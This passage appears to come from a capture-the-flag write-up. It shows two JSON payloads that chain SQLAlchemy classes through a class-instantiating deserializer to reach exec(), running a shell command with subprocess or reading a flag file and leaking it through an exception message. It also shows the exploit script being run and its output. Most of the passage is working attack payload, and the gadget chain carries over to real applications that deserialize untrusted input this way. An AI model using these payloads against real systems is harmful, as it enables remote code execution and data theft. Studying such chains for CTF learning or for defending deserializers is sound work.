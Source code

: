 ```json
          "__class__": "_class_resolver",
          "__module__": "sqlalchemy.ext.declarative.clsregistry",
          "arg": "exec('import subprocess; raise Exception(subprocess.check_output(\"cat flag\", shell=True))')",
          "_dict": {}
        }
      }
    }
  }
}
```

The message defines a nested structure of classes, where the most nested class contains the method to read the flag file and return it via the message of an exception. When sending this message, this is the result:

```sh
$ python3 exploit1.py 0.0.0.0 8081
Exception: Exception(b'THIS_IS_FLAG',)
```

The [second write-up](https://qiita.com/__dAi00/items/52548d42c1242e14ab3a) I found sends the following message:

```json
{
  "__class__": "RecipeCreateRequest",
  "__module__": "__main__",
  "materials": {
    "__class__": "RecipeCreateRequest",
    "__module__": "__main__",
    "split": {
      "__class__": "BooleanPredicate",
      "__module__": "sqlalchemy.testing.exclusions",
      "value": {
        "__class__": "ConventionDict",
        "__module__": "sqlalchemy.sql.naming",
        "convention": [],
        "_key_0": {
          "__class__": "_class_resolver",
          "__module__": "sqlalchemy.ext.declarative.clsregistry",
          "arg": "exec(\"raise Exception(open('flag').read())\")",
          "_dict": {}
        }
      }
    }
  }
}
```

The structure of nested classes looks similar, but the classes used are different. The most nested class is still the same though, where the method to read the flag is slightly different, but with the same result.
